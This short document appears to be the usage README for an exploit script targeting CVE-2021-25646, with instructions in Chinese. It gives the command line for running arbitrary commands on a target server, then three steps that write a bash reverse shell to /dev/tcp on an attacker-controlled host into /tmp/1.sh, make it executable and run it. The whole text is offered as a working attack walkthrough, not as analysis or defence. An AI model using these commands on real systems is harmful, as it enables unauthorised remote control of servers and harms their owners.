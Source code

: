usage:  python3 CVE-2021-25646.py  -u http://x.x.x.x   -c cmd

反弹shell如下：

写入反弹shell脚本

python3 CVE-2021-25646.py  -u http://x.x.x.x -c "echo 'bash -i >& /dev/tcp/x.x.x.x/xxxx 0>&1' > /tmp/1.sh"

赋予shell脚本执行权限

python3 CVE-2021-25646.py  -u http://x.x.x.x -c "chmod +x  /tmp/1.sh"

执行shell

python3  CVE-2021-25646.py  -u http://x.x.x.x  -c "/bin/bash /tmp/1.sh"
